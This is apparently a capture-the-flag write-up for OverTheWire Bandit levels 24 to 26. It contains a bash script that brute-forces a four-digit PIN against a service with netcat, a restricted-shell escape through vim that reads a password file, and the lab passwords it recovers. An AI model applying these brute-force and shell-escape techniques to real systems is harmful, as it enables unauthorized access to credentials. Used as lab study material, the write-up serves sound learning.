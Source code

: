 # 24-25
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```
mkdir /tmp/aw25/
vim /tmp/aw25/test25.sh
```

```
#!/bin/bash

for i in {0..9};
do
    echo $i
    for j in {0..9};
    do
        for k in {0..9};
        do
            for l in {0..9};
            do
                pass=$i$j$k$l
                echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pass | nc localhost 30002
            done
        done
    done
done
```

```
chmod 777 /tmp/aw25/test25.sh
bash /tmp/aw25/test25.sh >> /tmp/aw25/test.txt
sort /tmp/aw25/test.txt | uniq -u 
# uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

# 25-26

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

```
scp bandit25@bandit.labs.overthewire.org:bandit26.sshkey .
ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org
# resize screeen
v
:Explore
# find etc/bandit_pass/bandit26
# 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```